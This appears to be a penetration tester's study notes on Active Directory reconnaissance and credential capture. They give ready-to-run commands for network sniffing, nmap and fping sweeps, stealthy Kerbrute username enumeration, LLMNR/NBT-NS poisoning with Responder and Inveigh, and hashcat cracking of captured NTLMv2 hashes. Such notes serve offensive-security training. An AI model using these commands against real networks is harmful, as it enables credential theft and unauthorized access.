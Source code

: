 I have no access on Any machine on domain
# Passive identification of any hosts in the network
**Key Points**
- **AD Users** :We are trying to enumerate valid user accounts we can target for password spraying.
- **AD Joined Computers** Key Computers include Domain Controllers, file servers, SQL servers, web servers, Exchange mail servers, database servers, etc.
- **Key Services** Kerberos, NetBIOS, LDAP, DNS
- **Vulnerable Hosts and Services** 	Anything that can be a quick win. ( a.k.a an easy host to exploit and gain a foothold)

**Focus on**:
- _ARP Requests/Replies_: Identify active devices and their MAC addresses.
- _MDNS (Multicast DNS)_: Look for device names and network services.
- _Broadcast Domain Traffic_: Understand the network’s broadcast domain since switched networks limit visibility.
## Identifying Hosts
### Wireshark
```shell
sudo -E wireshark
```
Take some time to listen to the network and see what's going on "put our ear to the wire".
We notice some ARP requests and replies, MDNS, and other basic layer two packets (since we are on a switched network, we are limited to the current broadcast domain) some of which we can see below.
### Tcpdump 
```shell
sudo tcpdump -i tun0 -nn -v
sudo tcpdump -i tun0 arp
```
Our first look at network traffic pointed us to a couple of hosts via MDNS and ARP.
### Responder
```shell
sudo responder -I tun0 -A
```
# Active identification of any hosts in the network
### FPing Active Checks
A lightweight, fast utility for performing ICMP sweeps.
```shell
fping -asgq 10.10.5.0/23
```
### Nmap Scanning
AD Focus protocols (Ports): DNS, SMB, LDAP, Kerberos.
```shell
sudo nmap -v -A -iL hosts.txt -oN host-enum
```
Hostes Gathered from fping
## Identifying Users
### Kerbrute - Internal AD Username Enumeration
[Kerbrute](https://github.com/ropnop/kerbrute) can be a stealthier option for domain account enumeration. It takes advantage of the fact that Kerberos pre-authentication failures often will not trigger logs or alerts. We will use Kerbrute in conjunction with the `jsmith.txt` or `jsmith2.txt` user lists from [Insidetrust](https://github.com/insidetrust/statistically-likely-usernames). This repository contains many different user lists that can be extremely useful when attempting to enumerate users.
```shell
kerbrute userenum -d [DOMAIN] --dc [IP_ADDRESS] [WORDLIST]
kerbrute userenum -d domain.local --dc 172.16.5.5 jsmith.txt
```
# LLMNR/NBT-NS Poisoning
Link-Local Multicast Name Resolution (LLMNR) and NetBIOS Name Service (NBT-NS) are Microsoft Windows components that serve as alternate methods of host identification that can be used when DNS fails.
The point here is that when LLMNR/NBT-NS are used for name resolution, ANY host on the network can reply. This is where we come in with Responder to poison these requests. By this we can capture the NetNTLM hash and subject it to an offline brute force attack in an attempt to retrieve the cleartext password.
## LLMNR/NBT-NS Poisoning - from Linux
```shell
sudo responder -I <interface> -A
```
log file per host located in the `/usr/share/responder/logs`
#### Cracking an NTLMv2 Hash With Hashcat
``` shell
hashcat -m 5600 hash_ntlmv2 /usr/share/wordlists/rockyou.txt
```
## LLMNR/NBT-NS Poisoning - from Windows
By using tool [Inveigh](https://github.com/Kevin-Robertson/Inveigh) and attempt to capture another set of credentials. [Inveigh](https://github.com/Kevin-Robertson/Inveigh) works similar to Responder, but is written in PowerShell and C#. Inveigh can listen to IPv4 and IPv6 and several other protocols, including `LLMNR`, DNS, `mDNS`, NBNS, `DHCPv6`, ICMPv6, `HTTP`, HTTPS, `SMB`, LDAP, `WebDAV`, and Proxy Auth.

On powershell (Open as admin)
``` powershell
Import-Module .\Inveigh.ps1
(Get-Command Invoke-Inveigh).Parameters
Invoke-Inveigh Y -NBNS Y -ConsoleOutput Y -FileOutput Y
```
_Note_: PowerShell terminal must run with admin priv.
Using .exe
Inveigh [v2.0.11](https://github.com/Kevin-Robertson/Inveigh/releases/tag/v2.0.11)
steps on powershell (opened as admin)
```powershell
.\Inveigh.exe
```
_Note_: During capturing you can Press ESC to enter/exit interactive console, After typing `HELP` and hitting enter, we are presented with several options:
- We can quickly view unique captured hashes by typing `GET NTLMV2UNIQUE`
- We can type in `GET NTLMV2USERNAMES` and see which usernames we have collected.
